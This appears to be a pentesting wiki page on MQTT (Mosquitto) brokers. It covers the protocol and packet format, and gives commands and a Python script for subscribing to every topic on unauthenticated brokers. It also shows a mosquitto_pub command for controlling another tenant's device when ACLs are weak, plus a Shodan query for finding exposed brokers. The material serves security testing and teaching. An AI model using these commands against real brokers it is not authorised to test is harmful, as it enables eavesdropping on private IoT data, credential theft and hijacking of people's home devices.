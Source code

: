 # 1883 - Pentesting MQTT (Mosquitto)

## Basic Information

**MQ Telemetry Transport (MQTT)** is known as a **publish/subscribe messaging protocol** that stands out for its extreme simplicity and lightness. This protocol is specifically tailored for environments where devices have limited capabilities and operate over networks that are characterized by low bandwidth, high latency, or unreliable connections. The core objectives of MQTT include minimizing the usage of network bandwidth and reducing the demand on device resources. Additionally, it aims to maintain reliable communication and provide a certain level of delivery assurance. These goals make MQTT exceptionally suitable for the burgeoning field of **machine-to-machine (M2M) communication** and the **Internet of Things (IoT)**, where it's essential to connect a myriad of devices efficiently. Moreover, MQTT is highly beneficial for mobile applications, where conserving bandwidth and battery life is crucial.

**Default port:** 1883

```
PORT     STATE SERVICE                 REASON
1883/tcp open  mosquitto version 1.4.8 syn-ack
```

## Inspecting the traffic

When a **CONNECT** packet is received by MQTT brokers, a **CONNACK** packet is sent back. This packet contains a return code which is crucial for understanding the connection status. A return code of **0x00** means that the credentials have been accepted, signifying a successful connection. On the other hand, a return code of **0x05** signals that the credentials are invalid, thus preventing the connection.

For instance, if the broker rejects the connection due to invalid credentials, the scenario would look something like this:

```
{
  "returnCode": "0x05",
  "description": "Connection Refused, not authorized"
}
```

![[../images/image (976).png]]

### [**Brute-Force MQTT**](../generic-hacking/brute-force.md#mqtt)

## Pentesting MQTT

**Authentication is totally optional** and even if authentication is being performed, **encryption is not used by default** (credentials are sent in clear text). MITM attacks can still be executed to steal passwords.

To connect to a MQTT service you can use: [https://github.com/bapowell/python-mqtt-client-shell](https://github.com/bapowell/python-mqtt-client-shell) and subscribe yourself to all the topics doing:

```
> connect (NOTICE that you need to indicate before this the params of the connection, by default 127.0.0.1:1883)
> subscribe "#" 1
> subscribe "$SYS/#"
```

You could also use [**https://github.com/akamai-threat-research/mqtt-pwn**](https://github.com/akamai-threat-research/mqtt-pwn)

You can also use:

```bash
apt-get install mosquitto mosquitto-clients
mosquitto_sub -t 'test/topic' -v #Subscribe to 'test/topic'
mosquitto_sub -h <host-ip> -t "#" -v #Subscribe to ALL topics.
```

Or you could **run this code to try to connect to a MQTT service without authentication, subscribe to every topic and listen them**:

```python
#This is a modified version of https://github.com/Warflop/IOT-MQTT-Exploit/blob/master/mqtt.py
import paho.mqtt.client as mqtt
import time
import os

HOST = "127.0.0.1"
PORT = 1883

def on_connect(client, userdata, flags, rc):
	client.subscribe('#', qos=1)
	client.subscribe('$SYS/index.html#')

def on_message(client, userdata, message):
	print('Topic: %s | QOS: %s  | Message: %s' % (message.topic, message.qos, message.payload))

def main():
	client = mqtt.Client()
	client.on_connect = on_connect
	client.on_message = on_message
	client.connect(HOST, PORT)
	client.loop_start()
	#time.sleep(10)
	#client.loop_stop()

if __name__ == "__main__":
	main()
```

### The Publish/Subscribe Pattern [](#b667)

The publish/subscribe model is composed of:

- **Publisher**: publishes a message to one (or many) topic(s) in the broker.
- **Subscriber**: subscribes to one (or many) topic(s) in the broker and receives all the messages sent from the publisher.
- **Broker**: routes all the messages from the publishers to the subscribers.
- **Topic**: consists of one or more levels that are separated by a a forward slash (e.g., /smartshouse/livingroom/temperature).

### Packet Format [](#f15a)

Every MQTT packet contains a fixed header (Figure 02).Figure 02: Fixed Header

![https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png](https://miro.medium.com/max/838/1*k6RkAHEk0576geQGUcKSTA.png)

### Packet Types

- CONNECT (1): Initiated by the client to request a connection to the server.
- CONNACK (2): The server's acknowledgment of a successful connection.
- PUBLISH (3): Used to send a message from the client to the server or vice versa.
- PUBACK (4): Acknowledgment of a PUBLISH packet.
- PUBREC (5): Part of a message delivery protocol ensuring the message is received.
- PUBREL (6): Further assurance in message delivery, indicating a message release.
- PUBCOMP (7): Final part of the message delivery protocol, indicating completion.
- SUBSCRIBE (8): A client's request to listen for messages from a topic.
- SUBACK (9): The server's acknowledgment of a SUBSCRIBE request.
- UNSUBSCRIBE (10): A client's request to stop receiving messages from a topic.
- UNSUBACK (11): The server's response to an UNSUBSCRIBE request.
- PINGREQ (12): A heartbeat message sent by the client.
- PINGRESP (13): Server's response to the heartbeat message.
- DISCONNECT (14): Initiated by the client to terminate the connection.
- Two values, 0 and 15, are marked as reserved and their use is forbidden.

## IoT MQTT ecosystem attacks: plaintext brokers and topic ACL bypass

Many consumer IoT platforms expose MQTT brokers that are used by two distinct roles:
- Gateway/hub devices that bridge radio protocols (e.g., BLE/LoRa/Zigbee) to the cloud.
- Mobile apps or web backends that control devices via “app” topics.

Common weaknesses you can abuse during a pentest:

- Plaintext MQTT over non-standard ports (e.g., TCP/8001) instead of MQTTS. Any on-path observer can read credentials and control frames. Use Wireshark to spot cleartext CONNECT/CONNACK and SUBSCRIBE/PUBLISH traffic on unusual ports.
- Weak or missing per-tenant topic ACLs. If topics are namespaced only by deviceId (e.g., "/tenantless/<deviceId>/tx"), any authenticated user might PUBLISH to other tenants’ devices.
- Sensitive data leakage via maintenance/admin topics (e.g., Wi‑Fi credentials broadcast in cleartext after config changes).

Examples (replace placeholders with real values):

Subscribe to potentially sensitive topics with known topic prefixes and device IDs:

```bash
# Using mosquitto_sub
mosquitto_sub -h <broker> -p <port> -V mqttv311 \
  -i <client_id> -u <username> -P <password> \
  -t "<topic_prefix>/<deviceId>/admin" -v
```

Cross-tenant control when ACLs are weak (publish to another tenant’s device topic):

```bash
mosquitto_pub -h <app-broker> -p <port> -V mqttv311 \
  -i <your_client_id> -u <your_username> -P <your_password> \
  -t "/ys/<victimDeviceId>/tx" \
  -m '{"method":"Device.setState","params":{"state":{"power":"on"}},"targetDevice":"<victimDeviceId>"}'
```

## Shodan

- `port:1883 MQTT`
- MQTT plaintext on non-standard ports is common in IoT. Consider searching for brokers on alternative ports and confirm with protocol detection.

## References

- [How a $20 Smart Device Gave Me Access to Your Home](https://bishopfox.com/blog/how-a-20-smart-device-gave-me-access-to-your-home)

